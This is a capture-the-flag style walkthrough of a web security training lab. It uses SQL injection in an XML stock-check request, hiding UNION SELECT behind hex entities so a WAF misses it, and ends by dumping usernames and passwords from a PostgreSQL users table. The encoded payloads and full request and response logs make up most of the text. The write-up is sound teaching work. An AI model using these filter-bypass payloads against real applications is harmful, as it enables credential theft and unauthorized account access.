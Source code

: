 # SQL Injection: filter bypass via XML encoding

# Review

In all of the labs so far, you've used the query string to inject your malicious SQL payload. However, it's important to note that you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may even provide alternative ways for you to [obfuscate attacks](../../SQL_Injection/SQL_Injection_subpages/Obfuscate%20Attacks.md) that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often just look for common SQL injection keywords within the request, so you may be able to bypass these filters by simply encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:

```

<stockCheck>
    <productId>
    123
    </productId>
    <storeId>
    999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.


# Lab instruction

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

# Lab Walkthrough

****************************************The original request****************************************

```xml
POST /product/stock HTTP/2
Host: 0a26001204fbcb8e81cb48b400d6003b.web-security-academy.net
Cookie: session=dhxT01Z8lrAqj61DzJ3aeWQQpvY50mhx
Content-Length: 242
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a26001204fbcb8e81cb48b400d6003b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a26001204fbcb8e81cb48b400d6003b.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId>2</storeId>
</stockCheck>
```

**********************************************The original response**********************************************

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9

896 units
```

### Define vulnerable payload

When you notice on the URL response:

```
https://0a26001204fbcb8e81cb48b400d6003b.web-security-academy.net/product?productId=4
```

The `productId` in the ************************POST request************************ is assigned and displayed on the URL as a ******GET****** method → The other variable `storeId` might be processed by the application as a query to retrieve data from the database → Let’s try:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId>2+1</storeId>
</stockCheck>
```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9

916 units
```

The return value has been changed → The input `storeId` has been evaluated → It could be injected

### Determine number of columns + Bypass firewall

Let’s try another query to determine the number of columns:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId>2 UNION SELECT NULL</storeId>
</stockCheck>
```

```
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

The WAF has blocked our request and define it as an attack → It’s time to use obfuscating:

Use the Hackvector Extension from BurpSuite → Input the query string → Choose ****************Encode > hex_entities**************** → Click **************Convert**************

![Untitled](SQL%20Injection%20filter%20bypass%20via%20XML%20encoding%20images/Untitled.png)

Copy & Paste the above output into the `storeId` variable

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId>2 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x4e;&#x55;&#x4c;&#x4c;
</storeId>
</stockCheck>
```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

896 units
null
```

Adding 1 more `NULL` at the end to try to return 2 columns → Observe that the return value is **************0 units************** → The query only returns 1 column.

![Untitled](SQL%20Injection%20filter%20bypass%20via%20XML%20encoding%20images/Untitled%201.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId>2 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x4e;&#x55;&#x4c;&#x4c;&#x2c;&#x4e;&#x55;&#x4c;&#x4c;
</storeId>
</stockCheck>
```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 7

0 units
```

### Determine database type

| DATABASE TYPE | QUERIES |
| --- | --- |
| Oracle | SELECT banner FROM v$versionSELECT version FROM v$instance |
| Microsoft | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL | SELECT @@version |

Use the above commands and encode it with ****HackVector**** and figure out the database type

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId> 2 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x76;&#x65;&#x72;&#x73;&#x69;&#x6f;&#x6e;&#x28;&#x29;
</storeId>
</stockCheck>
```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 144

896 units
PostgreSQL 12.15 (Ubuntu 12.15-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

### Exploit

The database  ****************PostgreSQL**************** + The application only returns 1 column → Use concatenate to retrieve the `username` and `password` with ****PostgreSQL syntax****

******************************************Original Query string******************************************

```sql
UNION SELECT username || ':' || password FROM users
```

Use `||` to concatenate strings and use `:` to separate the `username` and `password` 

**********************************Encoded Query string**********************************

```
&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x3a;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
```

****************Request****************

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>4</productId>
<storeId> 2 &#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x3a;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;</storeId>
</stockCheck>
```

****************Response****************

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

administrator:x80nyo8e2o66z3z6k4s8
wiener:8t3wuud05d2g7dt38ac0
896 units
carlos:vlmucivvu5cdrtimd4ji
```

Use the password of `administrator` to login and solve the lab